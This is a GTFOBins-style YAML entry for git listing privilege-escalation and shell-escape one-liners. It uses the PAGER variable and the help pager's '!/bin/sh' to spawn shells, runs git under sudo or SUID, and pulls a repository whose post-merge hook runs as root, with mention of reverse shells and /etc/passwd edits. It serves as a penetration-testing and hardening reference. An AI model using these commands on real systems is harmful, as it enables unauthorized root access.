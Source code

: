 ```yaml
---
functions:
  shell:
    - code: PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git help config
        !/bin/sh
  sudo:
    - code: PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git -p help config
        !/bin/sh
    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git branch --help config
        !/bin/sh
    - code: |
        git remote add <name> <repo with malicious post-merge hook>
        sudo git pull <name>
    - description: This can be useful when only git pull is allowed sudo access. Any commands in the post-merge git hook of the repository which is pulled will be executed as root. This enables several ways to pop a root shell, including but not limited to: Adding an SSH key, starting a reverse shell and modifying /etc/passwd to create a new account with root access.
  limited-suid:
    - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
---
```

